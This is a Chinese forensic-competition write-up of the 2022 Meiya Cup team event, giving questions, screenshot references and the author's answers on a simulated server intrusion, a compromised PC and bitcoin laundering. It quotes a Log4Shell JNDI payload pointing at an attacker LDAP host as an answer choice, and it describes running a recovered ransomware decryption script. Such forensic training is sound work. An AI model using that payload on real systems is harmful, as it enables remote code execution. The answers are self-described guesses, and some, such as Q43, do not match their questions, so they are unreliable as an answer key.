






# 2022 美亚杯 团体赛

**以不同的角色为解题方向，所有结果均为拙见，打\*就是没思路**

------

# AGC

## 2. [填空题]就AGC集团网络的流媒体服务器 (Media Server)，有多少个本地用户曾经成功登录过? (以阿拉伯数字回答) (1分)

查看登陆记录

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016416-1726271136.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016386-1095630151.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016393-52194492.png)

结果为`3`

## 3. [填空题]就AGC集团网络的流媒体服务器，有多少个本地用户曾经成功用 'ssh' (Secure Shell)登录过? (以阿拉伯数字回答) (2分)

使用命令`lastlog`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016323-2102907455.png)

结果为`3`

## 4. [填空题]就上述的本地用户，成功通过 'ssh' 登录过该流媒体服务器多少次? (以阿拉伯数字回答) (3分)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016578-1332548097.png)

分析日志备份中的`auth.log`也可以看到登陆记录，但是由于备份日期的问题，并没有`7.22`的日志，所以会少一个

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016423-963421302.png)

结果为`12`

## 5. [单选题]试找找记录失败的登录尝试信息. 有以下哪一个名称曾尝试用 'ssh:notty' 登录该流媒体服务器? (2分)

A. iamhacker

B. hacking

C. hack

D. hacker

E. 以上皆非

查看日志备份中的`btmp`日志

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016289-1546366712.png)

结果为`C`

## 6. [填空题]就该流媒体服务器的本地用户, 有一个用户名是 'S' 开头的, 该用户的姓氏是什么? (以大写英文回答) (3分)

全局搜索`sammy`，在数据库文件中发现姓氏为`Li`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016355-1558594029.png)

结果为`LI`

## 7. [多选题]该流媒体服务器是有使用Docker容器 (Docker Container) 的，当中包含以下哪个Docker镜像 (Docker Image) ? (3分)

A. apache2

B. ubuntu

C. centos

D. nginx

E. hello-world

F. 以上皆非

docker命令`docker images`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016425-1410819792.png)

结果为`BCDE`

## 8. [单选题]就上述的Docker镜像，哪一个镜像在系统上运行中? (2分)

A. apache2

B. ubuntu

C. centos

D. nginx

E. hello-world

F. 以上皆非

docker命令`docker ps`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016395-2049870155.png)

结果为`D`

## 9. [多选题]该流媒体服务器是使用 'WordPress' 建站 (Create Website) 的，就 '比特币' 标题，有以下的电子邮箱地址曾经留有评论? (2分)

A. cn.wordpress.org

B. root58462@mail.qq.com

C. hi456@163.com

D. root@163.com

E. user1@localhost.net

F. 以上皆非

利用`127.0.0.1/wordpress`访问到网页，找到两个用户

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016376-1878661847.png)

所以我们需要登录数据库查看，先查看`wordpress`的配置文件`/var/www/html/wordpress/wp-config.php`，找到数据库用户密码

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016288-408597162.png)

然后链接数据库，查看表`wp_comments`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016396-1962867205.png)

另外通常我们也会直接找到保存密码的数据库文件`user.ibd`，找到哈希去在线解密网站直接解密，然而服务器中并没有这个文件，那么可能不管输入什么，都可以进入mysql的`root`账号

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016377-1744253268.png)

尝试一下发现报错，尝试申请临时root再操作一次

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016399-87922707.png)

可以看到，不论输入什么密码，都可以登录到`root`上

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016289-453505530.png)

结果为`BC`

## 10. [单选题]该流媒体服务器里其中一个本地用户是有使用 'calendar' 日历工具的, 日历内曾经提及以下哪个网站? (3分)

A. https://weibo.com

B. http://www.baidu.com

C. https://www.douyin.com

D. https://youku.com

E. https://www.binance.com

F. 以上皆非

打开日历查看

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016307-816401187.png)

结果为`E`

## 11. [单选题]该流媒体服务器里是有使用磁盘阵列 (RAID) 的, 该设备是使用哪一个 RAID 级别? (请选择最合适的答案) (1分)

A. RAID 0

B. RAIDz2

C. RAIDz3

D. RAID 10

E. RAID 5

F. 以上皆非

调查报告中显示raid级别为`mirror`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016276-1254272883.png)

结果为`F`

## 12. [单选题]该基本镜像存储池 (Basic Storage Pool) 里储存了一些视频档案, 请找出一段儿童sq影片, 该档案的最后修改时间是什么月份? (2分)

A. Jun

B. Jul

C. Aug

D. Sep

E. Oct

F. 以上皆非

仿真的时候将所有镜像都选择上，然后看`/media0/mediastorage`下

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016390-1906194861.png)

结果为`D`

## 13. [填空题]承上题，拥有该段儿童sq影片的用户名称是什么? (不要输入符号，以大写英文及阿拉伯数字回答) (1分)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016319-361927533.png)

结果为`root`

## 14. [填空题]就AGC集团网络的流媒体服务器，曾经有用户搜索过有关于儿童sq影片的资料而得到搜索结果，该用户所输入的网址是什么? (不要输入符号，以大写英文及阿拉伯数字回答，如 https://web3.com，需回答 HTTPSWEB3COM) (2分)

将`儿童`进行`url编码`为`%E5%84%BF%E7%AB%A5`，在xways中搜索该编码，成功定位到文件

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016290-889084019.png)

将搜索到的关键字解码得到`儿童sq`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016412-2019823462.png)

定位该文件位置`\home\peter\link.html`，看到访问的是百度，但不是很理解答案该怎么写，也可能是`E584BFE7ABA5E889B2E68385`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016557-563460665.png)

结果为`HTTPSWWWBAIDUCOM`

## 15. [填空题]该基本镜像存储池 (pool) 有一个快照 (Snapshot)，快照的名称是什么? (不要输入符号，以大写英文及阿拉伯数字回答，如 media/mediapool@abc123，需回答MEDIAMEDIAPOOLABC123) (1分)

使用命令`zfs list -t snapshot`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016399-1225290813.png)

结果为`MEDIA0MEDIASTORAGEVERSION1`

## 16. [填空题]就上述所找到的基本镜像存储池快照 (Snapshot)，它储存了多少个档案? (以阿拉伯数字回答) (1分)

使用命令`zfs rollback media0/mediastorage@version1`回滚镜像，查看文件数量

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016328-838484369.png)

结果为`24`

## 21. [单选题]分析IP地址61.238.217.108向AGC服务器10.0.66.184发送的第一个 'GET' 指令，它请求的统一资源定位系统 (Uniform Resource Locator - URL) 是什么? (1分)

A. http://155.137.195.111:8080

B. http://www.w3.org/2003/05/soap-envelope

C. http://61.238.217.108:8000

D. 以上皆非

追踪TCP流就可以看到

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016396-290566382.png)

结果为`A`

## 22. [单选题]IP地址61.238.217.108曾经向AGC服务器10.0.66.184发送 'POST' 指令，它在 'HTML Form' 项目的 'uname' 栏所输入的字符串是什么? (1分)

A. root

B. ${jndi:ldap://61.238.217.108:1389/a}

C. application/x-www-form-urlencoded

D. password

追踪TCP流就可以看到

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016397-1994631675.png)

结果为`B`

## 23. [单选题]AGC服务器10.0.66.184收到IP地址61.238.217.108的 'POST' 指令后，它执行了哪些行动? (2分)

A. 使用端口46858连接IP地址61.238.217.108的LDAP服务器的指定端口

B. 于IP地址61.238.217.108下载了Exploit.class

C. 使用端口49264连接IP地址61.238.217.108发送同步要求

D. 以上皆是

追踪TCP流就可以看到

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016351-931245181.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016399-1964983087.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016636-1472114644.png)

结果为`D`

## 24. [填空题]在上述行动后，IP地址61.238.217.108利用哪个端口 (Port) 向AGC服务器10.0.66.184发出指令? (以阿拉伯数字回答) (1分)

见上题

结果为`9001`

## 25. [多选题]AGC服务器10.0.66.184里有一个AGC目录 (Directory)，它的子目录 (Sub Directory) 包含以下哪一个? (2分)

A. Accounting

B. Picture

C. Staff

D. Sambashare

E. Retail

追踪TCP流就可以看到

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016267-443380432.png)

结果为`ACE`

## 26. [多选题]入侵者迸入AGC服务器10.0.66.184后，他成功执行以下哪些指令? (2分)

A. 檢视了readme.txt内容

B. 删除了三个档案

C. 删除了一个目录 (Directory)

D. 替档案改名

E. 建立了两个txt档案

可以看到更改文件名、建立了两个TXT文件

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016587-1411379233.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016555-100601253.png)

结果为`DE`

## 27. [单选题]入侵者曾经传送一个档案到AGC服务器10.0.66.184并将它改名 (Rename)，这个档案的原来名称是什么？(1分)

A. cGhvdG9zT0Zyb2NreQ==

B. Finanical.xls

C. readme.txt

D. anonymous

追踪TCP流就可以看到

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016397-1144633475.png)

结果为`A`

## 28. [单选题]承上题，该档案原档的建立日期是什么? (2分)

A. 2022-10-21 08:10:30 (UTC+0)

B. 2022-10-21 16:19:39 (UTC+0)

C. 2022-10-22 08:10:30 (UTC+0)

D. 2022-10-22 14:22:06 (UTC+0)

E. 2022-10-22 16:19:39(UTC+0)

利用foremost分离出pdf文件

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016412-1949046046.png)

查看pdf文件属性

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016772-29912970.png)

结果为`B`

## 29. [单选题]承上题，该档案的SHA-256哈希值是什么? (3分)

A. a6eef1... ...27364c

B. 54785c… ...fe86f0

C. 961f2b… ...647d55

D. a00e6c… ...d0eaab

E. 以上皆非

计算文件的sha256

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016390-2021750891.png)

结果为`E`

## 31. [单选题]分析AGC-CS计算机 (Computer) 里最初的作業系統 (Windows) ，它的实際安装时间是什么? (以时区UTC+8回答) (3分)

A. 2022-09-26 14:35:17

B. 2022-09-26 21:35:17

C. 2022-09-27 05:35:17

D. 2022-10-05 03:52:15

E. 2022-10-05 11:52:15

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016700-1003724198.png)

结果为`C`

## 32. [单选题]AGC-CS计算机里的 'Acrobat DC' 软件的安装时间是? (以时区UTC+8回答) (如答案为 2022-12-29 16:01:59，需回答 20221229160159) (1分)

A. 2022-09-28 19:01:40

B. 2022-09-28 07:18:33

C. 2022-08-30 19:01:40

D. 2022-08-30 07:18:33

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016548-1996196004.png)

结果为`A`

## 33. [单选题]AGC-CS计算机里的用户 'Carson' 链接了一个网络磁盘机 (Network Drive)，在下列哪一个档案有相关资料? (2分)

A. \Users\Carson\NTUSER.DAT

B. \Users\admin\NTUSER.DAT

C. \Windows\System32\config\SYSTEM

D. \Windows\System32\config\SOFTWARE

E. \Windows\System32\config\SECURITY

网络磁盘采用`\\ip`的方式进行访问，查看资源管理器的记录

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016407-1687192735.png)

跳转到源文件即可

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016603-490153687.png)

结果为`A`

## 34. [单选题]承上题，用户 'Carson' 连接的网络磁盘机的IP地址是什么? (1分)

A. \\192.168.182.134\

B. \\192.168.182.134\photo

C. \\192.168.182.134\share

D. \\192.168.182.134\AGC

E. \\192.168.182.134\AGC photo

见上题

结果为`C`

## 35. [填空题]分析计算机里的电邮数据，当中包含嫌疑人王景浩可能的居住地址，请回答他住址的楼层 (以阿拉伯数字回答) (1分)

查看邮件解析的数据

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016531-1420988939.png)

结果为`45`

## 36. [填空题]承上题，王景浩使用的信用卡号码最后四位数字是? (1分)

查看邮件解析的数据

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016451-1208909004.png)

结果为`6717`

## 37. [填空题]AGC-CS计算机用户 'Carson' 曾经收到一个电邮并通过里面的链结下载了一个可疑的 'Word' 文件，那个档案的档案名是什么? (不要输入 '.'，以大写英文及阿拉伯数字回答。如 Cat10.jpg，需回答CAT10JPG) (1分)

找到链接

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016592-1405572559.png)

在下载目录找到了相关文档

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016777-428820033.png)

结果为`KEFMUONDOCX`

## 38. [单选题]承上题，分析该 'Word' 文件，它的可能用途是? (3分)

A. 访问一个网站

B. 记录键盘操作

C. 把档案加密

D. 改变桌面壁纸

E. 关闭计算机

在线分析发现漏洞，剩下的功能可能是下载的脚本的功能

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016438-1677439466.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016846-1651513433.png)

结果为`A`

## 39. [单选题]AGC-CS计算机里有一个名为 'admin' 的用户，它是在何时被建立的? (以时区UTC+8回答) (1分)

A. 2022-09-28

B. 2022-09-29

C. 2022-09-30

D. 2022-10-01

E. 以上皆非

admin最早登录日期是`9.29`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016843-1929135284.png)

最早更改密码日期也是`9.29`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016432-1655999699.png)

同时系统安全日志中记录的创建时间也是`9.29`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016822-1421689327.png)

结果为`B`

## 40. [填空题]黑客第一次采用用户 'admin' 通过远程桌面协议 (Remote Desktop Protocol - RDP) 登录了AGC-CS计算机的时间是? (以时区UTC+8回答) (如答案为 2022-12-29 16:01:59，需回答 20221229160159) (2分)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016815-1470426858.png)

结果为`20220929204102`

## 41. [填空题]黑客入侵AGC-CS计算机后下载了一个扫描端口 (Port Scanning) 的软件，这软件的真正名称是? (以大写英文及阿拉伯数字回答) (3分)

黑客最早在29号入侵，因此看这之后的下载记录，但是只有一个putty

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016278-1147566050.png)

结果为`PUTTY`

## 42. [填空题]承上题，黑客采用上述软件取得一些计算机的IP地址及媒体访问控制地址 ('Media Access Control' Address - MAC Address) 并存到一个名为 'ip.txt' 的档案。当中 '192.168.182.130' 计算机的MAC地址是什么? (不要输入 '：' 或 '-' ，以大写英文及阿拉伯数字回答) (3分)

这份文件被传输到王景浩的苹果电脑

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016954-1205480081.png)

在王景浩的苹果电脑中找到

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016875-2017044988.png)

查看文件可以得到

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016357-1746033011.png)

结果为`9061AEC09045`

## 43. [填空题]AGC-CS计算机里的一个跳转列表 (Jumplist) 显示了用户 'admin' 曾经采用记事本 (Notepad) 打开了一个文字档案，这个文字档的SHA-256哈希值是什么? (以大写英文及阿拉伯数字回答) (3分)

利用仿真进入系统，切换到admin用户直接查看

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016840-599148313.png)

结果为`ip.txt`

## 44. [单选题]黑客除了通过 'RDP' 外，还采用什么软件远端控制 (Remote Control) AGC-CS计算机? (1分)

A. VNC

B. Teamviewer

C. Anydesk

D. Splashtop Business Access

E. RemotePC

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016845-1814190076.png)

结果为`B`

## 45. [填空题]AGC_Server里LVM (Logical Volume Management 逻辑卷轴管理) 的 VG (Volume Group 卷组) 'pve' 共有多少PE (Physical Extent 物理块) ? (以阿拉伯数字回答) (1分)

利用ufs进行raid重组，将识别出的raid制作e01镜像并导出数据盘中的虚拟机磁盘文件

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122107089-1465876347.png)

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122107097-1435119619.png)

查看重组出的镜像，在头部保存有数据

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122107102-335221742.png)

仿真后使用命令`vgdisplay`也能查看

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122107085-2007962058.png)

结果为`114147`

## 46. [填空题]AGC_Server里LVM 的 LV(邏輯卷)"pve-data" 使用了多少百分比的空間? (不用填寫 '%'，以阿拉伯数字回答) (3分)

使用命令`df -h`查看

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122107115-1900085022.png)

结果为`2`

## 47. [多选题]AGC_Server里的 'Proxmox' 虚拟化环境 (Virtual Environment - VE) 有哪一个用户? (2分)

A. root

B. VM_admin

C. sysadmin

D. acl

E. tss

查看`/etc/shadow`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016848-79694305.png)

结果为`AE`

## 48. [填空题]分析 'VM' (虚拟机) 编号 '111' AGC网站的网页服务器日志，当中记录了黑客曾向该服务器发出多少次與远程代码執行 (Remote Code Execution) 的网络攻击？(以阿拉伯数字回答) (2分)

查看nginx服务器配置文件`/etc/nginx/conf.d/agcom.com.conf`，找到访问日志

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016409-662194785.png)

手工分析和369星图都没发现有代码执行啊。。。

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016765-1785172103.png)

不过同目录下有一堆`access.log`

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122159046-1697916975.png)

在这些日志里面确实有代码执行

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122159078-1332478880.png)

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122159045-582144994.png)

结果为`17`

## 49. [单选题]哪一个IP地址尝试登录'VM' (虚拟机) 编号 '111' 失败次数最多? (1分)

A. 38.242.130.207

B. 218.92.0.206

C. 43.142.93.22

D. 121.202.141.105

E. 61.238.217.108

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016949-840949303.png)

结果为`E`

## 50. [填空题]黑客在入侵 'VM' 编号 '111' 后，打算涂改AGC公司的网页，黑客在传送相关档案时所用的端口 (Port) 是什么? (以阿拉伯数字回答) (3分)

在王景浩的苹果电脑中，有文件上传命令，使用的是`scp`，而`scp`在不指定参数p时，默认采用`22`端口

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016403-2086195343.png)

观察上传的文件，内容就是篡改网页

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016839-1543630292.png)

结果为`22`

## 51. [多选题]根据 'VM' 编号 '111' 里的网页服务器 (Web Server) 的设定，访客可从下列哪个网页地址访问这个服务器? (2分)

A. localhost

B. www.ag.com.shop

C. www.agcom.shop

D. agcom.shop

E. www.agcom.com

查看nginx服务器配置文件`/etc/nginx/conf.d/agcom.com.conf`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016409-662194785.png)

结果为`DE`

## 52. [填空题]黑客曾入侵 'VM' 编号 '111' 里的电邮系统 'Xeams'，他登录的时间是? (以unix时间戳回答，格式如:1665049779010) (2分)

查看日志`/opt/Xeams/AuditLogs/20221006.aul`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016437-186772034.png)

结果为`1665049779010`

## 53. [单选题]黑客在入侵后盗用AGC员工电邮户口及冒充AGC员工回复了电邮给客户，发出这封电邮的操作系统 (Operating System) 及电邮软件 (Mail Agent) 是什么? (2分)

A. Mac OS X 10.15 rv:102.0 Thunderbird/102.3.0

B. Mac OS X 10.15 rv:102.0 Thunderbird/91.13.1

C. Mac OS X 10.11 rv:91.0 Thunderbird/91.13.1

D. Mac OS X 10.11 rv:60.0 Thunderbird/60.9.1

E. Windows 10 Pro Outlook 2016

根据时间过滤出两个邮件

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016834-613572908.png)

查看邮件内容

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016699-1799972019.png)

结果为`D`

## 54. [单选题]黑客在 'Proxmox' 里留下了一个被加密了的程序 (Program)，在解密后它的SHA-256哈希值 (Hash Value) 是什么? (2分)

A. C89D7A... ...8C4E76

B. C7141F... ...64BF65

C. E9433E... ...1A5134

D. 45CE1C… ...79BD4A

E. 0ACAA5… ...AB7ECE

查看历史命令，发现可疑信息，虽然解密后的文件被删除，但是给出了命令，照着跑一边即可

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122301490-2120397380.png)

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122301594-1311392174.png)

结果为`E`

## 55. [填空题]承上题，分析程序代码 (Program Code)，上述程序的档案名应该是什么? (不要输入 '.'，以大写英文及阿拉伯数字回答。如 Cat10.jpg，需回答CAT10JPG) (3分)

结果为`RANSOMWAREVERFINALV2PY`

## 56. [单选题]于虚拟机 'VM' 编号 '111' 里的档案 '\srv\samba\share\AGC photo\DSC01139.JPG' ，照片中出现的街道名称是? (2分)

A. 河背街

B. 沙咀道

C. 众安街

D. 香车街

E. 川龙街

解密脚本也在代码里

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122301485-321266170.png)

改一下直接跑

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122301493-342505629.png)

[](https://img2023.cnblogs.com/blog/2817142/202212/2817142-20221204122301508-748091780.png)

结果为`C`

# 朗尼

## 89. [单选题]朗尼草莓 (Raspberry) 计算机操作系统的主机名称 (hostname) 是什么? (1分)

A. OpenWrt

B. admin

C. root

D. AsusRt

E. DDwrt

查看`/upper/etc/config/system`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016326-374884266.png)

结果为`A`

## 90. [多选题]以下哪项对于朗尼草莓计算机操作系统的描述是正确的? (2分)

A. LAN地址是 192.168.1.24

B. 提供点对点隧道协议 (Point-to-Point Tunneling Protocol - PPTP) VPN服务

C. WIFI登录密码为'OpenWrt'

D. 提供网络时间协议 (NTP) 服务

E. 时区设置相等于UTC+8

lan的ip是`192.168.1.24`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016574-1668620225.png)

登录密码为`59814785`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016649-1539895986.png)

时区为`HKT-8`，且有ntp，但是并未开启

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016420-359030333.png)

配置了基于`ssl`的vpn`OPENVPN`

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016835-1329606684.png)

结果为`AE`

## 91. [多选题]承上题，'VPN' 服务器的IP地址及端口 (Port) 是什么? (2分)

A. IP地址 61.238.217.108

B. IP地址 192.168.8.1

C. IP地址 103.10.12.106

D. 端口 33248

E. 端口 1194

F. 端口 1701

查看openvpn配置

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016574-513839761.png)

结果为`AE`

## 92. [填空题]朗尼草莓计算机操作系统设定了一个档案来储存系统的 'log_file' ，档案名称是什么? (不要输入 '.'，以大写英文及阿拉伯数字回答。如 Cat10.jpg，需回答CAT10JPG) (2分)

继续查看系统配置文件

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016347-1119282468.png)

结果为`SYSLOG`

## 93. [单选题]承上题，检视上述的档案，当中有几个IP地址曾经成功登录这个系统的 'VPN' 服务? (3分)

A. 1

B. 2

C. 3

D. 4

E. 0

分析该日志，成功登录会出现关键词`Password auth succeeded`，搜索一下过滤ip就行

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016637-1546885236.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017028-248452829.png)

结果为`B`

## 94. [单选题]承上题，检视上述的档案，当中有几个IP地址曾经尝试以 'root' 登入装置但因密码错误而不成功? (2分)

A. 2

B. 4

C. 5

D. 6

E. 8

继续分析日志

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016540-1822328109.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016844-1898851650.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017027-62920301.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016392-1190627175.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016831-1142565578.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016985-1559489383.png)

结果为`D`

## 95. [填空题]根据装置的过往记录，'log_file' 是设在 'usr/rooney/' 的哪个已被删除的子文件夹里 (Sub Directory)? (以大写英文回答) (3分)

在扇区中搜索

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016441-1380091165.png)

结果为`RECORD`

## 106. [单选题]朗尼的计算机有什么软件可以创建比特币钱包 (Bitcoin Wallet)? (1分)

A. MetaMask

B. Electrum

C. Trezor

D. 以上皆非

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017095-1414175823.png)

结果为`B`

## 107. [填空题]朗尼通过比特币替王景浩清洗黑钱，分析朗尼的计算机及手机，朗尼收取王景浩黑钱的比特币地址 (Bitcoin Address) 是什么? (以大写英文及阿拉伯数字回答) (1分)

 

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017053-1711155927.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016455-1888478999.png)

结果为`BC1Q0R0L3LH63WY865CD560KN3UHJQRWGGVTY4ZJ8N`

## 108. [单选题]朗尼收取王景浩多少比特币作为清洗黑钱的费用? (1分)

A. 1%

B. 4%

C. 7%

D. 10%

E. 15%

查看聊天记录

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017047-133804443.png)

结果为`D`

## 109. [单选题]朗尼的计算机里有一个没被加密的比特币钱包，它的回复种子 (Recovery Seed) 不包含哪一个英文字? (1分)

A. oppose

B. area

C. twice

D. roast

登录进入看到

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016994-741570409.png)

结果为`D`

## 110. [单选题]朗尼的计算机里有多少个加密了 (Encrypted) 的比特币钱包? (1分)

A. 1

B. 2

C. 3

D. 4

E. 5

仿真打开后看到一共有6个钱包

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016443-1147837430.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017026-1103311926.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154017096-86544844.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016442-1583630353.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016810-1838414238.png)

[](https://img2022.cnblogs.com/blog/2817142/202211/2817142-20221126154016831-1414913113.png)

只有`rc`是不加密的

结果为`5`

